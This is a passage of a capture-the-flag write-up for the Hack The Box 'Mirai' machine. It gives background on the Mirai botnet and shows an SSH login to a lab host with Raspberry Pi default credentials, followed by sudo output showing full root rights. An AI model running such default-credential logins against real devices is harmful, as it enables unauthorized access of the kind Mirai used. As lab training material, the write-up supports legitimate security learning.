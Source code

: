 Given that Mirai is listening on TCP 53, I’ll want to check it for a zone
transfer, using syntax like `dig axrf @10.10.10.48 [zone]`. I don’t have any
hints towards hostnames so far. I can try `htb` and `mirai.htb`, but neither
return anything interesting.

## Shell as pi

### Mirai Botnet Background

[Mirai](https://en.wikipedia.org/wiki/Mirai_\(malware\)) is a real malware
that formed a huge network of bots, and is used to conduct distributed denial
of service (DDOS) attacks. The compromised devices are largely made up of
internet of things (IoT) devices running embedded processors like ARM and
MIPS. The most famous Mirai attack was in October 2016, when the botnet
degraded the service of Dyn, a DNS service provider, which resulted in making
major sites across the internet (including NetFlix, Twitter, and GitHub)
inaccessible. The sites were still up, but without DNS, no one could access
them.

Mirai’s go-to attack was to brute force common default passwords. In fact,
`mirai-botnet.txt` was added to
[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Malware/mirai-
botnet.txt) in November 2017.

### SSH

The default creds for a Raspberry Pi device are pi / raspberry. I’ll try those
here:

    
    
    oxdf@hacky$ sshpass -p raspberry ssh pi@10.10.10.48
    ...[snip]...
    pi@raspberrypi:~ $
    

It worked. I’ll grab `user.txt`:

    
    
    pi@raspberrypi:~/Desktop $ cat user.txt
    ff837707************************
    

## Shell as root

pi can run `sudo` as root for any command:

    
    
    pi@raspberrypi:~/Desktop $ sudo -l
    Matching Defaults entries for pi on localhost:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User pi may run the following commands on localhost:
        (ALL : ALL) ALL
        (ALL) NOPASSWD: ALL
    